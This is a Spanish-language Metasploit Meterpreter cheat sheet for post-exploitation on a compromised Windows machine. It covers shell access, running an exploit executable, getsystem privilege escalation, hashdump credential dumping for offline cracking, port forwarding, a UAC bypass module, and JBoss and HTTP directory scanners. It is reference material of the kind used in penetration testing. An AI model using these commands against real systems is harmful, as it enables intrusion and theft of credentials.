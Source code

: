 Como ejecutar archivos (EXE) alojados en la maquina comprometida.  
*Esto es util para la ejecucion de exploits.*
{% highlight markdown %}  
execute -f c:\\windows\temp\exploit.exe
{% endhighlight %}     

Crea un nuevo canal con una Shell de CMD
{% highlight markdown %}  
execute -f cmd -c
{% endhighlight %}     

Como ver los procesos que corre nuestra maquina comprometida.  
{% highlight markdown %}  
ps
{% endhighlight %}     

Como obtener una shell en la maquina comprometida.  
{% highlight markdown %}  
shell
{% endhighlight %}     

Realizar un intento para escalar privilegios sobre el sistema.  
{% highlight markdown %}  
getsystem
{% endhighlight %}     

El comando hashdump permite obtener los usuarios y el hash de los passwords de la maquina remota en formato SAM, de esta forma se puede crakear la clave de un usuario determinado usando herramientas como john the ripper o ophcrack
{% highlight markdown %}  
hashdump
{% endhighlight %}     

Como redirigir puertos a través de la máquina comprometida hacia nosotros los atacantes.
{% highlight markdown %}  
portfwd add -l 3389 -p 3389 -r target
{% endhighlight %}     

Eliminar alguna redireccion de puertos previamente configurada.
{% highlight markdown %}  
portfwd delete -l 3389 -p 3389 -r target
{% endhighlight %}     

Burlar el Control de Cuentas de Usuario (UAC) en Windows 7 // Indicar la IP de la victima como target + arch, x86/64
{% highlight markdown %}  
use exploit/windows/local/bypassuac
{% endhighlight %}     

Analizador de directorios HTTP
{% highlight markdown %}  
use auxiliary/scanner/http/dir_scanner
{% endhighlight %}     

Escaner de vulnerabilidades para JBOSS
{% highlight markdown %}  
use auxiliary/scanner/http/jboss_vulnscan
{% endhighlight %}     
